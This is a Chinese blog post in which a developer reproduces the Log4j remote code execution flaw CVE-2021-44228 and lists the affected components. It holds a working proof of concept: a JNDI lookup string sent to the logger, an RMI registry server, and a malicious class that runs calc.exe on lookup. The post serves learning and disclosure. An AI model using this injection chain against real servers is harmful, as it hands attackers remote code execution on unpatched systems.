 ```yaml
---
title: "一个只会做开发的小白的 Log4j RCE 漏洞复现过程"
categories: [ "漏洞", "RCE" ]
tags: [ "RCE", "Log4j" ]
draft: false
slug: "log4j-rce"
date: "2021-12-13 17:25:00"
---
```



## 前言

CVE编号：**CVE-2021-44228**



这次的 RCE 漏洞影响确实大，堪称核武器级别，因为其复现极其简单，发出没多久几乎整个 IT 圈都知道了。我一个搞开发的，以往也就关注一些前沿的新技术消息，这次来关注一下安全圈的事件。



Log4j 是 Apache 的一款日志库，用途范围极其广泛，Spring 等框架均包含。



受影响的组件包含但不限于：

- Apache Struts2
- Apache Solr
- Apache Druid
- Apache Flink
- Apache Flume
- Apache Dubbo
- Apache Kafka
- Spring-boot-starter-log4j2
- ElasticSearch



## RCE 过程整理

影响版本：Apache Log4j Core <= 2.14.1



本文的代码仓库：https://github.com/taurusxin/CVE-2021-44228

### 复现

若某一服务中包含有 使用 Log4j 对用户输入内容的日志记录，那么便可触发 RCE

```java
package me.xingez;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jTest {
    private static final Logger LOGGER = LogManager.getLogger();

    public static void main(String[] args) {

        String testPayload = "${jndi:rmi://127.0.0.1/evil}";

        LOGGER.error(testPayload);

    }
}
```

用户构造恶意 jdni 服务，将含有 `${jdni:xxx}` 的字符串提交到后端，记录日志时便可执行 lookup



![https://cdn.rhyland.cn/hugo/2021-12-13/calc.png](https://cdn.rhyland.cn/hugo/2021-12-13/calc.png)



其中我使用的 jdni 服务为 RMI registry，代码如下



`RmiServer.java`

```java
package me.xingez.rmi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RmiServer {
    public static void main(String[] args) {

        try {
          	// 注册 registry 监听端口
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();

            System.out.println("Create RMI registry on port 1099...");
          
          	// 实例化恶意代码类的引用
            Reference reference = new Reference("me.xingez.rmi.EvilCode",
                    "me.xingez.rmi.EvilCode", null);
          
          	// 绑定服务为 evil
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("evil", wrapper);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```



`EvilCode.java`

```java
package me.xingez.rmi;

import java.io.IOException;

public class EvilCode {
  	// 当 lookup 时，直接执行该类的静态块
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

声明：以上所有代码块均为安全测试时使用，切勿用于非法用途，使用此代码导致的后果与本人无关。

## 结语

这个漏洞触发简单到用发送一条消息的办法就可以做到，因为我是一名 MC 玩家兼 MC 服务器服主，所以这个问题对我来说是不可忽视的，好在我们服务器现在运行的是最新的 1.18，使用 Java 17，不存在此问题。

最后祝愿这几天修代码的安全工程师、开发者都保重身体健康！